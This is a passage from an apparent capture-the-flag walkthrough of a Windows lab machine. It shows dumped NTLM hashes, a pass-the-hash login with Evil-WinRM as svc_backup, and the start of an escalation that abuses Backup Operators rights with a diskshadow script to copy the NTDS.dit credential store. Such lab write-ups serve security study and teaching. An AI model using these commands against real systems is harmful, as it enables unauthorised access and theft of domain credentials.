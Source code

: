 ```
		NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
		SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
```

We have both the **Administrator** and **svc_backup** user's NTLM hash. To connect to a Windows machine without knowning the account password we can use the Pass-The-Hash technique which basically just uses the NTLM hash material as authentication. Various tools in the Impacket suite like wmiexec, smbexec and psexec support PTH but here we'll instead connect with Evil-WinRM, an WinRM client that supports PTH along with other nice features like AMSI bypass and upload/download functionality.

Unfortunately, it seems that the Administrator has been changed since the memory dump was taken and we can't connect with the hash we got:

```
snowscan@kali:~$ evil-winrm -u administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62 -i 10.10.10.192

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
```

But the svc_backup credentials hasn't been changed and we can connect with the NTLM hash:

```
snowscan@kali:~$ evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i 10.10.10.192

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```

## Privilege escalation to Administrator - Method #1

The user **svc_backup** is a member of the **Backup Operators** group as shown by the `net users svc_backup` output.

```
Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

Backup operators are dangerous because they can create a disk shadow copy and access files in-use by the system. The plan here is to grab a copy of the NTDS.dit file which contains all the Active Directory credentials. For some reason you need an extra space at the end of each line otherwise the diskshadow strips off a character and the command becomes invalid.

```
*Evil-WinRM* PS C:\temp> upload pwn.txt
Info: Uploading pwn.txt to C:\temp\pwn.txt

                                                             
Data: 116 bytes of 116 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\temp> type pwn.txt
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:
```